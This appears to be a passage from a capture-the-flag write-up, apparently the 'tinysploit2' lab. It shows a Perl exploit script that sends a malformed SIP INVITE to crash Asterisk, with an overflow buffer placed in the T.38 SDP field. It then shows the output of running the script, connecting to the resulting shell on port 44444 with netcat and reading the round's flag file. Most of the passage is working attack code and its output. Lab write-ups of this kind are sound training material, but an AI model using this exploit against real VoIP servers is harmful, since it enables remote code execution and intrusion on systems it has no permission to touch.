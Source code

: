 ```
$sip_packet .= "c=IN IP4 127.0.0.1\n";
$sip_packet .= "t=0 0\n";
$sip_packet .= "m=image 5004 UDPTL t38\n";
$sip_packet .= "a=T38FaxVersion:0\n";
$sip_packet .= "a=T38MaxBitRate:14400\n";
$sip_packet .= "a=T38FaxMaxBuffer:1024\n";
$sip_packet .= "a=T38FaxMaxDatagram:238\n";
$sip_packet .= "a=T38FaxRateManagement:$buf\n";
$sip_packet .= "a=T38FaxUdpEC:t38UDPRedundancy\n";

$sip_length = length($sip_packet);

my $packet =<<END;
INVITE sip:200\@127.0.0.1 SIP/2.0
CSeq: 1 INVITE
Via: SIP/2.0/UDP 127.0.0.1:1024
From: "Prank Caller" <sip:prank\@127.0.0.1:1024>
Call-ID: aaaaaaaa-aaaa-aaaaaaa-aaaa-aaaaaaaaaaaa\@localhost
To: <sip:200@localhost>
Allow: INVITE,ACK,OPTIONS,BYE,CANCEL,NOTIFY,REFER,MESSAGE
Content-Type: application/sdp
Content-Length: $sip_length
Max-Forwards: 70

$sip_packet
END

print "Packet\n$packet\n";

print "Sending Packet to: " . $target . "\n\n";
socket(SOCK, PF_INET, SOCK_DGRAM, getprotobyname("udp"));
my $ipaddr = inet_aton($target);
my $sendto = sockaddr_in($target_port, $ipaddr);
send(SOCK, $packet, 0, $sendto) == length($packet) or die "cannot send to $target : $target_port : $!\n";
print "Sent.\n";

DumpString($payload);

```

# Result

```
$ perl sipcrash3.pl 192.168.2.136
...


user@tinysploit2:~$ nc localhost 44444


ls /home/asterisk
FLAG2.TXT
cat /home/asterisk/FLAG2.TXT
MOST EXCELLENT!

You have completed Round 2

The final round poses a harder challenge.
Exploit a stack overflow in Apache mod_jk.so.

You shall need to shut down the Apache web server,
```